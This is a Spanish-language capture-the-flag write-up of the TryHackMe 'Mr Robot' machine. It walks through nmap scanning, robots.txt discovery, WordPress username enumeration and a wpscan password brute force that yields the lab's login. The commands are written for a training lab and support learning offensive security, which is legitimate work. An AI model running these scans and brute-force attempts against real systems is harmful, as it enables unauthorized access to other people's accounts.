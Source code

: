 ```yaml
---
title: "tryhackme: Mr Robot"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/MrRobot/logo.jpg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - web
  - wordpress
---
```


# Comprobaremos que la maquina se encuentre activa

```bash
❯ ping -c 1 10.10.115.49
PING 10.10.115.49 (10.10.115.49) 56(84) bytes of data.
64 bytes from 10.10.115.49: icmp_seq=1 ttl=63 time=162 ms

--- 10.10.115.49 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 161.950/161.950/161.950/0.000 ms
```

Efectivamente, vemos que recibio el paquete enviado, ahora comprabaremos que *OS* tiene la maquina

```bash
❯ wichSystem.py 10.10.115.49

10.10.115.49 (ttl -> 63): Linux
```

Ya hemos confirmado que estamos con una maquina _linux_ mediante 2 formas diferentes

- 1 mediante el *ttl* que obtuvimos del comando ping
- 2 la uilidad -[WichSystem.py](s4vitar.github.io)

# Realizamos un escaneo de puertos

```bash
❯ sudo nmap --open --min-rate 5000 -Pn -n -sS 10.10.115.49 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-01 14:30 -05
Failed to resolve "n".
Nmap scan report for 10.10.115.49
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
```

## obtenemos una mejor vista de los puertos abiertos mediante la utilidad *extractPors*, ademas de que nos los copia

```bash
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.115.49
   5   │     [*] Open ports: 80,443
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────
```
Buscamos posibles vulnerabilidades en los puertos con *nmap*

```bash
❯ nmap -sC -sV -p80,443 10.10.115.49
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-01 14:31 -05
Nmap scan report for 10.10.115.49
Host is up (0.17s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.80 seconds
```

vemos la pagina web del sitio y miramos a ver que nos llama la atencion

![server.png](/assets/images/MrRobot/server.txt)

buscamos en *robots.txt*

![robots.txt](/assets/images/MrRobot/robots.txt)

encontramos 2 posibles rutas

```bash
User-agent: *
 fsocity.dic
 key-1-of-3.txt
```

- *fsocity.dic* contiene posibles nombres de usuarios y/o contraseñas
- *key-1-of-3.txt* contiene una la primer _flag_


# hacemos una pausa para ver los posibles *vectores de ataque* que tenemos

mientras esperamos que termine el escaneo con *gobuster* intentaremos hacer una identificación de usuarios mediante el login ya que
nos permite una enumeración de usuarios

- luego de probar varios posibles usuarios encontramos que *Elliot* es un usuario valido (bastante logico, si recordamos el nombre
de la maquina)

vamos ver cuantas lineas tiene el diccionario _fsocity.dic_ 

```bash
❯ cat fsocity.dic | wc -l
858160
```
es un archivo bastante grande, por si acaso eliminaremos los duplicados

- sort: ordemamos las parabras
- uniq: eliminamos las repetidas
Vemos que ahora solo tenemos 11.451 lineas 

```bash
❯ sort fsocity.dic | uniq > users.txt
❯ wc -l users.txt
11451 users.txt
```

### ahora pasaremos a intentar hacerle fuerza bruta al login con el archivo fsocity.dic (luego del tratamiento, users.txt)encontrado antes

- primero realize brute force con *hydra*, pero luego de mucho tiempo lo cancele e intente con *wpscan* y tarde menos de 5 minutos

```bash
wpscan --url http://10.10.1.9 -t 50 -U elliot -P users.txt

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
```
luego de la largaaa espera, tenemos el usuario *Elliot* y la contraseña *ER28-0652*

![imagen worpress.png](/assets/images/MrRobot/worpress.png)

Miraremos la pagina de admin a ver que podemos hacer 
